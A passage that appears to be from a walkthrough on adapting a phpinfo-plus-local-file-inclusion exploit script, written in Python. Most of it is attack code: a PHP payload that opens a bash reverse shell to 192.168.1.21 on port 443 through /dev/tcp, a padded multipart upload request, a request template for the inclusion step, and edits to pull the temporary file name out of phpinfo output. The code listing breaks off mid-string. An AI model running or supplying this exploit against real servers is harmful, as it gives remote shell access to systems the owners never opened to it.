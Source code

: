 ```
In this function we have to change the values for our values, like that:

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.21/443 0>&1'"); ?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /index.php?filename=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r

```

Another important thing is when we create the php file in the temporary path it looks like **[tmp_name] =&gt; /tmp/phpidsMp** but in the script look different and this's a problem **[tmp_name] => /tmp/phpdsdKs**, we need to change this for the correct operation of the script.

```
First case:

i = d.find("[tmp_name] =&gt")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

Second case:

  try:
        i = d.index("[tmp_name] =&gt")
        fn = d[i+17:i+31]
  except ValueError:
        return None
```
